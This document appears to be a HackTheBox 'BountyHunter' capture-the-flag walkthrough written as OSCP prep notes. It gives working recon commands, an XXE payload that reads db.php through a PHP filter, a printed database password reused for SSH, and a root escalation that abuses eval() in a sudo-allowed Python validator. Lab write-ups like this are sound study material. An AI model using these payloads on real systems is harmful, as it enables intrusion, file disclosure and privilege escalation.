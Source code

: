 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp <IP>
nmap -p 22,80 -sCV -oA scans/nmap-tcpscripts <IP>
```

---

## 🕵️ [Web Enumeration](HTTP)
```bash
# Add to /etc/hosts
<IP> bountyhunter.htb

# Fuzz VHosts
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://bountyhunter.htb -H "Host: FUZZ.bountyhunter.htb" --fs 194
```

### Identified:
- **www.bountyhunter.htb** (Default Page)
- **tracker_diRbPr00f314.php** (Found via Burp/Form Submission)

---

## 📂 XML/XXE Exploitation
### Decode Burp Request:
1. URL-decode `data`
2. Base64-decode result
3. XML structure remains

### Exploit XXE to Read Files
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
<bugreport>
  <title>test</title>
  <cwe>123</cwe>
  <cvss>5</cvss>
  <reward>&xxe;</reward>
</bugreport>
```

### Encode for Delivery:
- Base64 the above
- URL encode the Base64

### Submit via Burp:
```http
POST /tracker_diRbPr00f314.php
...
data=<encoded payload>
```

### Result:
```bash
# Decode base64 response to read db.php
cat result.b64 | base64 -d
```

### Extracted Password:
```bash
# dbpassword: m19RoAU0hP41A1sTsq6K
```

---

## 🔐 [Shell as Development](SSH)
```bash
ssh development@<IP>
# password: m19RoAU0hP41A1sTsq6K
```
```bash
cat ~/user.txt
```

---

## 🖕 Root Escalation
### Check sudo perms:
```bash
sudo -l
```
```bash
# Result:
(root) NOPASSWD: /opt/ticketValidator/ticketValidator.py
```

### Inspect Script:
```python
# dangerous line
validationNumber = eval(x.replace("**", ""))
```

### Bypass Ticket Format:
```bash
# Example ticket:
cat << EOF > /tmp/ticket
== Ticket ==
TicketCode: 18
**101+1
EOF
```

### Run Validator with Ticket:
```bash
sudo /opt/ticketValidator/ticketValidator.py /tmp/ticket
```

### Get Root Flag:
```bash
cat /root/root.txt
```

---

## 📚 Summary
- Web endpoint: `/tracker_diRbPr00f314.php`
- Encodings: URL, Base64
- Data format: XML
- Attack: XXE
- XXE Bypass with: PHP filters (`php://filter/...`)
- Priv Esc: Insecure use of `eval()` in sudo Python script

---

## 📚 Resources
- [SecJuice BountyHunter Walkthrough](https://www.secjuice.com/htb-bountyhunter-walkthrough/)
- [PayloadAllTheThings: XXE Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

